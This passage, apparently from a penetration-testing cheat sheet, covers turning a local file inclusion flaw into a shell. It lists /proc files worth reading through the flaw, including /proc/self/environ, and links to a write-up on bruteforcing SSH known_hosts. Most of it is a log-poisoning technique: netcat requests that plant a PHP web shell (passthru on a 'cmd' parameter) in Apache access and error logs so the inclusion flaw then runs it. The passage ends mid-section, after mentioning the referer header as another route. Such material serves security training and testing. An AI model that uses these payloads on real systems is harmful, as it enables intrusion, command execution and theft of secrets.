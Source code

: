 [https://en.wikipedia.org/wiki/Procfs](https://en.wikipedia.org/wiki/Procfs)

[https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/](https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/)

```text
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Bruteforcing SSH known\_hosts <a id="bruteforcing-ssh-knownhosts"></a>

[https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known\_hosts-files/](https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/)

## LFI to shell <a id="lfi-to-shell"></a>

Under the right circumstances you might be able to get a shell from a LFI

### Log poisoning <a id="log-poisoning"></a>

There are some requirements. We need to be able to read log files. In this example we are going to poison the apache log file. You can use either the success.log or the error.log

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

**Insert php-code into the log file**

This can be done with nc or telnet.

```text
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

You can also add it to the error-log by making a request to a page that doesn't exists

```text
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Or in the referer parameter.
